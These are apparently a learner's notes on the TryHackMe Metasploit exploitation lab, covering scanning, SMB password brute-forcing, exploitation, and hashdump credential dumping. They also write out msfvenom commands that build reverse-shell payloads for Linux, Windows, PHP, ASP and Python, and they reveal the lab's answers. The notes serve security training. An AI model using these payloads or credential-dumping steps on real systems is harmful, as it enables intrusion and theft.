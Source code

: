 ```yaml
---

# Metasploit: Exploitation - Try Hack Me room

---
```


## Objective 

- how to scab target systems using metasploit
- how to use the metasploit database feature
- how to use metasploit to conduct vulnerability scan
- how to use metasploit to expoit vulnerable services on target systems
- how `msfvenom` can be used to create payloads and obtain a meterpreter session on the traget system

- will be using wordlist `/usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt`

<details>
  
<summary>Scanning</summary>

**Port Scanning**


- Metasploit has number of modules to scan open ports on the target system and network
- `search portscan` can list potential port scanning modules available

<img width="785" height="249" alt="image" src="https://github.com/user-attachments/assets/93c7a8ae-818e-4bd7-91e9-6654fed3fc48" />

- port scanning modules will require us to set a few options

<img width="542" height="362" alt="image" src="https://github.com/user-attachments/assets/65909e71-1307-471f-a991-e189bcc0947c" />

- **concurrency:** number of targets to be scanned simultaneously
- **ports:** port range can be scanned. Metasploit will scan port numbers from 1 to 10000 (nmap scans 1000 most used ports)
- **RHOSTS:** target or target network to be scanned
- **THREADS:** number of threads that will be used simultaneously. more threads = faster scans

---

- can directly perform Nmap scans from the msfconsole prompt faster:

<img width="905" height="227" alt="image" src="https://github.com/user-attachments/assets/47ddc51d-bcb7-417f-b0d8-b5cd61373af6" />

- for information gathering, if you require a speedier approach to port scanning
- metasploit may not be first choice
- a number of modules make metasploit a useful tool for the scanning phase

---
## UDP service Identification

- `scanner/discovery/udp_sweep` module allow us to quickly identify services running the UDP (user datagram protocol)
- this module will not conduct an extensive scan of all possible UDP services
- but does provide a quick way to identify services like DNS or NetBIOS

- we need to set RHOSTS variable to the target IP address to run the UDP scan 

<img width="959" height="308" alt="image" src="https://github.com/user-attachments/assets/c6d86fe7-09cb-471f-b4d6-e3f3573f017d" />

---

## SMB Scans 

- metasploit offers several useful auxiliary modules - allow us to scan specific services
- especially useful in corporate network -> `smb_enumshares` and `smb_version`
- spend some time to identify scanners that the metasploit version installed on your system offers
- again set RHOSTS

- <img width="951" height="311" alt="image" src="https://github.com/user-attachments/assets/fe858646-d140-4eb8-8173-e726b68abe13" />

---
- don't skip 'exotic' services (e.g. NetBIOS) when scaaning -> can reveal useful intel
- NetBIOS = name service similar to SMB, reveals host names that hint at role (e.g. `CORP-DC`, `DEVOPS`, `SALES`)
- NetBIOS/SMB can expose shares (files/folders) - some may be public or protected with weak passwords
- Common weak/share passwords to try: admin, administrator, root, toor, password
- Use Metasploit and other modules to enumerate NetBIOS/SMB (search first for relevant modules)
- Enumeration can lead to attack paths: shared credentials, misconfigurations, or readable sensitive files.
- always run `search type:auxiliary smb` (or `search netbios`) in msfconsole to find helpful modules
- combine scans with targeted (e.g. `nbtscan`, `smbclient`, `smbmap`, `nmap -p 137,139,445 --script=smb-enum-shares`) for deeper insight
- scanning/enumerating targets requires explicit authorisation, don't scan systems we do not own or are not permitted to test

--- 

- How many ports are open on the target system? 5

<img width="433" height="302" alt="image" src="https://github.com/user-attachments/assets/3c50606d-756e-4fb7-a1a3-19ca38dbe5b7" />

---

- using the relevant scanner, what NetBIOS name can we see?acme it support

- <img width="215" height="119" alt="image" src="https://github.com/user-attachments/assets/0b2d597a-123b-463e-ab6e-a27bb9447568" />

- <img width="953" height="236" alt="image" src="https://github.com/user-attachments/assets/0b78a12f-85e6-4d32-b46c-d2e368ebd5bc" />

- <img width="910" height="294" alt="image" src="https://github.com/user-attachments/assets/2c89293f-5ac1-4c25-bc69-39998a952764" />

---

- What is running on port 8000? webfs/1.21

- <img width="893" height="338" alt="image" src="https://github.com/user-attachments/assets/dbfe6844-42cd-4d82-b02f-f0833207cd33" />

---

- What is the "penny" user's SMB password? Use the wordlist /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt : leo1234

- <img width="673" height="43" alt="image" src="https://github.com/user-attachments/assets/96430ea9-4749-4d43-a575-c1a1fb2ac7e0" />

- <img width="947" height="379" alt="image" src="https://github.com/user-attachments/assets/d6ff5202-f878-488f-866e-92f361e3f60e" />

- <img width="712" height="344" alt="image" src="https://github.com/user-attachments/assets/57a3fa0a-8809-4103-93fb-dee35eede725" />

- <img width="686" height="124" alt="image" src="https://github.com/user-attachments/assets/d063a264-42f5-49fe-835e-a667bcb38847" />

</details>

<details>
<summary>The Metasploit Database</summary>

- Metasploit has a database function to simplify project management and avoid possible confusion when setting up parameter values
- start PostgreSQL before initializing the Metasploit database: `systemctl start postgresql`
- Initialize database (non-root): `sudo -u postgres msfdb init`
- Check database status:`msf6 > db_status` → should show connection to PostgreSQL.
- workspaces isolate projects:

    - List: `workspace`
    - Add: `workspace -a <name>`
    - Delete: `workspace -d <name>`
    - Switch: `workspace <name>`
 
  **Database-Integrated Commands**

- `db_nmap` → run Nmap scans and automatically save results.
- `hosts` → list hosts saved in the database.
- `services` → list detected services.
- `vulns` → list identified vulnerabilities.
- `loot` → list captured data/files.
- `notes` → save additional observations.
- `db_connect/db_disconnect` → manage database connections.
- `db_export/db_import` → save/load scan data.

**workflow example**

1. Scan network with `db_nmap` to find live hosts and services.
2. Save hosts/services in the database.
3. Use modules (e.g., `auxiliary/scanner/smb/smb_ms17_010`) with `hosts -R` to set RHOSTS from saved hosts.
4. Set module options (`show options`) and run module (`run` or `exploit`).
5. Search for services via database:

   - Example: `services -S netbios` → find hosts running NetBIOS.

6. Use Metasploit modules for SMB, HTTP, FTP, SSH, RDP, etc., to find vulnerabilities.

**benefits**

- Centralized information across multiple targets.
- Quickly repeat scans or module executions without manually resetting options.
- Easy identification of high-value targets (HTTP, SMB, FTP, SSH, RDP).
- Organize engagements by workspace to avoid cross-contamination of data.

</details>

<details>
<summary>Vulnerability Scanning</summary>

- Low-hanging fruit: easily exploitable vulnerabilities that can provide quick access or high privileges.
- Scanning & fingerprinting are critical: the better the target is mapped, the more Metasploit options become available.
- Example workflow:

      - Identify running services (e.g., VNC).
      - Use search in Metasploit to list modules for the service.
      - Modules may include payloads, scanners, and post-exploitation tools.
      - Not all modules are immediately useful until a vulnerability is identified

- Focus on scanners first to discover exploitable weaknesses before attempting exploits


  <img width="768" height="377" alt="image" src="https://github.com/user-attachments/assets/9deb31b0-4a2a-4b81-83cb-2739dd69d9ea" />

- can use `info` for any module to have better understanding of its use and purpose

<img width="493" height="445" alt="image" src="https://github.com/user-attachments/assets/fc513cf4-70e7-4c31-a81e-2fd51e53ca14" />

- `vnc_login` module can help us find login details for the VNC service

---

- Who wrote the module that allows us to check SMTP servers for open relay? Campbell Murray

- <img width="938" height="383" alt="image" src="https://github.com/user-attachments/assets/3a28bfe2-426c-4497-9cae-bbbead11329b" />

- <img width="910" height="124" alt="image" src="https://github.com/user-attachments/assets/1caf1c50-6d2d-44fe-9849-9419166b5123" />

- <img width="893" height="374" alt="image" src="https://github.com/user-attachments/assets/5eaeb09b-b521-49cc-860e-137132c6d950" />


</details>

<details>
<summary>Exploittation</summary>

- metasploit version details

<img width="413" height="58" alt="image" src="https://github.com/user-attachments/assets/4d637b98-e449-4cc8-93d9-b71a7d4620ee" />

- can search exploits `search` command
- obtain more info about the exploit using `info`
- and launch the exploit using `exploit`
- a successful output depends on a thorough understanding of services running on the target ssystem

---

- most exploits will have a present default payload
- but we can always use `show payloads` to list other sommands we can use with that specific exploit

<img width="959" height="353" alt="image" src="https://github.com/user-attachments/assets/e4dbf506-41d4-4cb6-b6db-e1344ec2e298" />

- once decided on the payload can use `set payload` to make choice

<img width="947" height="384" alt="image" src="https://github.com/user-attachments/assets/dfcc7c90-8a1d-4d83-a849-d9fb4ef1d71d" />


<img width="434" height="155" alt="image" src="https://github.com/user-attachments/assets/46b18633-eae7-4638-a542-293f094b77d9" />

- choosing a working payload could become a trial and error process
- due to environmental or OS restrictions such as firewall rules, anti-virus, file writing, or the program performing the payload execution isn't available (eg. payload/python/shell_reverse_tcp).
- some payloads will open new parameters that we may need to se
- runnong `show options` command once more can show these
- as seen above a reverse paylaod will at least require us to set `LHOST` option

  <img width="770" height="362" alt="image" src="https://github.com/user-attachments/assets/4db6a9cf-0b81-439a-adb1-f54519a4cb3e" />

  - once a session opened we can background it using `CTRL+Z` or abort using `CTRL+C`
  - backgrounding a session will be useful when working on more than one target simultaneously or on the same target with a different exploit and/or shell
 
  <img width="439" height="257" alt="image" src="https://github.com/user-attachments/assets/a80e8b74-8b4f-49a9-8b8b-7afd64b98565" />

---

## working with sessions 

- `sessions` will list all active sessions
- `sessions` supports a number of options that will help you manage sessions better

  <img width="925" height="388" alt="image" src="https://github.com/user-attachments/assets/a8c0255e-0e83-4efd-8067-e32bb4282dea" />

-  can interact with any existing session using `sessions -i` followed session ID

<img width="866" height="286" alt="image" src="https://github.com/user-attachments/assets/2e193266-8fea-456f-924e-a94c838d7002" />

---

**exploit**

- <img width="613" height="364" alt="image" src="https://github.com/user-attachments/assets/97884b01-97ab-4293-8faa-8cc713bbe083" />

- <img width="499" height="385" alt="image" src="https://github.com/user-attachments/assets/ade3c3fd-e429-44cf-97d3-e123b4008013" />

- <img width="791" height="364" alt="image" src="https://github.com/user-attachments/assets/902a202c-6885-45dc-9990-555ad86a7446" />

- <img width="694" height="436" alt="image" src="https://github.com/user-attachments/assets/b1b1a00d-167a-4afb-9c50-e9932e6638c8" />

- now have access to the target and can begin post-exploitation.

**what is the content of the flag.txt?**

- use `search`

- <img width="493" height="146" alt="image" src="https://github.com/user-attachments/assets/ec4ba8f8-1693-4395-b874-38df0018b500" />

- read file `cat`

- <img width="342" height="38" alt="image" src="https://github.com/user-attachments/assets/ff72e0c2-c606-44bb-a06b-c70d0debe3f4" />

**What is the NTLM hash of the password of the user "pirate"?**

- `hashdump` This will dump the SAM database (usernames and their NTLM hashes) from the target Windows machine.

- <img width="556" height="65" alt="image" src="https://github.com/user-attachments/assets/69d3c6e5-a5d2-4852-a4ae-7328f1271ff7" />

---

<img width="580" height="206" alt="image" src="https://github.com/user-attachments/assets/4c84adcc-74cb-4861-8e05-661a2879203f" />


</details>

<details>
<summary>Msfvenom</summary>

- msfvenom allows us to generate payloads
- allows us to access payloads available in the metasploit framework
- allows us to create payloads in many different formats (PHP, exe, dll, elf, etc.)
- and from many different target systems (apple, windows, android, linux etc.)

<img width="493" height="298" alt="image" src="https://github.com/user-attachments/assets/877920ab-9d57-467d-900a-f59eb9c41afc" />

---

**output formats**

- can either generate stand-alone payloads (e.g. Windows executable for Meterpreter) or get usale raw format (e.g. python)
- the `msfvenom --list formats` command can be used to list supported output formats

---

**encoders**

- encoders do not aim to bypass antivirus installed on the target system
- they encode the payload
- it can be effective against some antivirus software, using modern obfuscation techniques
- or learning methods to inject shellcode is a better solution to the problem
- example below shows usage of encoding (`-e` parameter, the PHP version of meterpreter was encoded in Base64, and the output format was raw)

<img width="557" height="149" alt="image" src="https://github.com/user-attachments/assets/59a35bb9-4c49-4d4e-8cbf-5acd3db44ca4" />

---

**handlers**

- similar to exploits using a reverse shell -> need to be able to accept incoming connections generated by MSFvenom payload
- when using exploit module this part is automatically handled by exploit module
- `payload options` title appears when setting reverse shell
- The term commonly used to receive a connection from a target is 'catching a shell'
-  Reverse shells or Meterpreter callbacks generated in our MSFvenom payload can be easily caught using a handler

-> following scenario we will exploit the file upload vulnerability present in DVWA 

--- 

- we will need to replicate a similar scenario on another target system - DVWA used here for illustration purposes
- exploit steps are:
- generate the PHP (A scripting language mostly used for web development.) shell using MSFvenom
- start Metasploit handler
- execute PHP shell

---

- MSFvenom will require a payload, the local machine IP address and the local port to which the payload will connect
- below -> 10.0.2.19 is the IP address of the AttackBox used in the attack and local port 7777 was chosen.

- <img width="434" height="92" alt="image" src="https://github.com/user-attachments/assets/439b0b97-d613-4568-a2bf-0d561612fc9b" />

- <img width="476" height="244" alt="image" src="https://github.com/user-attachments/assets/ffe64061-79c3-4dd2-ada9-0b294ea0f151" />

- <img width="506" height="350" alt="image" src="https://github.com/user-attachments/assets/b2a2f85a-0e34-4616-82be-1ae0fb7cea00" />

- we use multi handler to receive the incoming connection
- `use exploit/multi/handler`
- Multi handler supports all Metasploit payloads and can be used for Meterpreter as well as regular shells
- to use this module we need to set payload value (`php/reverse_php`), the LHOST and LPORT values

<img width="379" height="383" alt="image" src="https://github.com/user-attachments/assets/6edb2843-7a51-45e9-8f5a-36337148f24d" />

- once everything set we `run` the handler and wait for incoming connection

<img width="329" height="69" alt="image" src="https://github.com/user-attachments/assets/7f5fb1fd-2b2d-4488-9c8a-6c364a8d0dd8" />

- when the reverse shell is triggered, the connection will be received by multi/handler and provide us with a shell
- if payload was set as Meterpreter (e.g. in a windows executable format) multi/handler would then prove us with Meterpreter shell

---

## other payloads

- based on the target system's configuration (operating system, install webserver, installed interpreter etc.)
- msfvenom can be used to create payloads in almost all formats

- below are a few examples we will often use:

     - in all these examples LHOST  = IP address of our attacking machine and LPORT = port on whoch our handler will listen
 
 
**Linux Executable and Linkable Format (elf)**

- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
- .elf format is comparable to the .exe format in Windows -> are executable files for Linux
- but may still need to make sure they have executable permissions on the target machine
- e.g. once we have the shell.elf file on our target machine, use the chmod +x shell.elf command to accord executable permissions
- once done we can run this file by typing ./shell.elf on target machine command line

**windows**

- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`

**PHP**

- `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`

**ASP**

- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`

**python**

- `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`

- all examples above are reverse payloads
- means we will need to have the exploit/multi/handler module listening on our attacking machine to work as a handler
- will need to set up the handler accordingly with the payload, LHOST and LPORT parameters
- these values will be same we have used when creating msfvenom payload

---

- <img width="102" height="93" alt="image" src="https://github.com/user-attachments/assets/b725f443-6404-4669-bb34-b8b921c6f550" />


- first we switch user to murphy and login in -> use whoami to confirm

- <img width="205" height="83" alt="image" src="https://github.com/user-attachments/assets/548d6354-530a-476c-9ac2-3df5ba58bfbd" />

- get a root shell `sudo su`, can see we have successfuly escalated to root privileges

- <img width="133" height="70" alt="image" src="https://github.com/user-attachments/assets/edc96a35-7104-4761-b2c5-82e26517aeff" />

 - we have just performed a privilege escalation attack

---

- <img width="92" height="68" alt="image" src="https://github.com/user-attachments/assets/05eb211e-c411-4c6d-86a6-e0a7fe67050e" />

- switching to the attackbox actually logs us out on the metasploitMSFVENOM-badr

- <img width="331" height="233" alt="image" src="https://github.com/user-attachments/assets/1343deb8-9dd1-4de4-a4d7-3f569a46ff1e" />

- once logged in we get root shell (use `sudo su` to escalate privileges)

- <img width="122" height="36" alt="image" src="https://github.com/user-attachments/assets/776eca1d-a36f-4b4c-b108-a75ffa121bbd" />

- now we Create a meterpreter payload in the .elf format for the Linux system
- first switch tab
- LHOST=attackbox ip (at top of terminal)
- LPORT whatever you like

- <img width="330" height="158" alt="image" src="https://github.com/user-attachments/assets/e826700e-042b-46bf-bb0a-5ef0ec0e4653" />

- now elf file has been created

---

- <img width="98" height="131" alt="image" src="https://github.com/user-attachments/assets/26bde24a-8c63-4c85-adf3-714e62a7b57f" />

- start the http server from which the attack machine will download the elf file
- can see it below the full directory listeing through the http server from the listening host in this case the attackbox

- <img width="336" height="337" alt="image" src="https://github.com/user-attachments/assets/ebe2cb97-8483-47bf-a16e-0ad624cf88e1" />

- this is how we get the elf file on the attack machine 

- <img width="328" height="106" alt="image" src="https://github.com/user-attachments/assets/553984ab-4b53-44e3-a276-bae6d647dc7b" />

- can see we successfully downloaded the file 

- start the meteploit handler start by `msfconsole`

- <img width="326" height="242" alt="image" src="https://github.com/user-attachments/assets/674a3582-6ba5-4674-a50a-86867c99a515" />

- first we go to the correct module then we set the payload then we set lhost (attackbox ip) then the port (same as port we used when creating meterpreter payload) then did `show options` to check what we had just set 

- exploit failed so we try different port

- <img width="332" height="74" alt="image" src="https://github.com/user-attachments/assets/6fdc02b0-62e3-4bdc-9039-fdad17cbb82c" />

- <img width="328" height="98" alt="image" src="https://github.com/user-attachments/assets/8c151979-1c54-4f9f-a5a2-d6dce0734499" />

- <img width="314" height="95" alt="image" src="https://github.com/user-attachments/assets/0f591c8f-8489-4ce3-b952-383998dc3a72" />

- <img width="329" height="176" alt="image" src="https://github.com/user-attachments/assets/e4af5161-e252-4eae-8e95-947c7186ce2e" />

- run started successfully

- <img width="245" height="35" alt="image" src="https://github.com/user-attachments/assets/062bbd5c-8b71-4b84-8cc1-94173d49cdf0" />

- <img width="302" height="75" alt="image" src="https://github.com/user-attachments/assets/4c402634-d769-4d13-87f4-e9f31b7e66e7" />

- change mod on attack then switch back see session has opened (Get a meterpreter session on the target machine. is completed)

- <img width="323" height="68" alt="image" src="https://github.com/user-attachments/assets/d8666674-14cb-411c-8c21-27ad92db52c5" />

- `ls` see files on target machine

- <img width="319" height="182" alt="image" src="https://github.com/user-attachments/assets/57c84ddc-de57-4b7a-84da-5e85e0d4f5d5" />

- we  are asked to  post exploitation module to dump hashes of other users on the system

- <img width="131" height="41" alt="image" src="https://github.com/user-attachments/assets/207a0191-efc5-4406-ac40-6585ac2ae5b3" />

- <img width="335" height="77" alt="image" src="https://github.com/user-attachments/assets/170131b6-4795-45a3-98cb-e78326d8b668" />

- <img width="481" height="305" alt="image" src="https://github.com/user-attachments/assets/28829b30-5238-4725-9f91-16e01fd52bcf" />

</details>

---

## Summary 

- better understanding of how Metasploit can help you identify potential vulnerabilities on target systems and exploit these vulnerabilities
- seen how the database feature can help you with penetration testing engagements where you have multiple potential targets
- gained some experience with msfvenom and the creation of stand-alone Meterpreter payloads -> especially helpful in situations where you can upload a file to the target system or have the ability to download files to the target system
